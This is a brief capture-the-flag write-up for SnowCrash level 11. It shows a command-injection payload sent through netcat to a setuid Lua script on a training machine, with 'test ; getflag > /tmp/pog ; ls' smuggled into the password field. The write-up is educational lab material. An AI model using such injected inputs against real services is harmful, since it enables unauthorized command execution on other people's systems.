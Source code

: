 # Snowcrash11

This one is pretty simple

```sh
level11@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua
```
We have access to a lua script that tries into baiting us to reversing a hash (i found this particuliar one online)
But the goal here is shell injection, and i can be done with nc (as intended)



```sh
level11:~$ nc 127.0.0.1 5151
Password: test ; getflag > /tmp/pog ; ls
Erf nope..
level11:~$ cat /tmp/pog
Check flag.Here is your token : REDACTED
```
Told ya